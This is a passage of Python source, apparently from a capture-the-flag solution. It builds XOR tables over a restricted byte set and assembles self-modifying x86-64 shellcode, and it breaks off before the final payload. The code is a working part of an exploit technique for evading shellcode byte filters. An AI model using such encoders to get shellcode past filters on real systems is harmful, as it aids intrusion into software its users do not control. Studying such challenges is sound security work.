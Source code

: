 ```python
xors[0x43] = b"\x34\x43"
xors[0x44] = b"\x34\x44"
xors[0x45] = b"\x34\x45"
xors[0x46] = b"\x34\x46"

#Iteratively xor all known xor differences by all other known differences, if we create a new xor record it
#If our new sequence is mroe efficient, also record it.
for loops in range(8):
    for q in range(256):
        if q not in xors:
            continue
        for i in range(256):
            if i not in xors:
                continue
            combo = i ^ q
            new = xors[i] + xors[q]
            if combo not in xors:
                xors[combo] = new
            if len(new) < len(xors[combo]):
                xors[combo] = new
total = 0
for x in range(256):
    print(hex(x), len(xors[x]), xors[x])
    total += len(xors[x])
print("Avg bytes per AL xor", total/256.0)

def write_rdx_off(off):
    return bytes([0x30, 0x42, off])
    
#we keep a global state of the last al value, to ensure we're always xoring based on the last known value
simul_al = 0x0
def get_xor(goal):
    global simul_al
    a =  xors[goal^simul_al]
    simul_al = goal
    return a
    
def make_shellcode():
    # a bit of prelude, this is essentially a NOP that guarantees [rax] points towards 0x30 while [rax+1] points towards 0x30
    shellcode = b"\x30\x31\x30\x31"
    #cluster these two writes together for optimization reasons
    shellcode += get_xor(0x48)
    shellcode += write_rdx_off(0x31)
    shellcode += write_rdx_off(0x34)
    shellcode += get_xor(0xff)
    shellcode += write_rdx_off(0x33)
    shellcode += get_xor(0x31)
    shellcode += write_rdx_off(0x32)
    shellcode += get_xor(0x89)
    shellcode += write_rdx_off(0x35)
    shellcode += get_xor(0xd6)
    shellcode += write_rdx_off(0x36)
    
    #This xors rdx by 0x100 by xoring dh first by [rax+1] and then by [rax].
    shellcode += get_xor(0x1)
    shellcode += b"\x32\x30"
    shellcode += get_xor(0x0)
    shellcode += b"\x32\x30"
    
    #now add the final bit of shellcode
```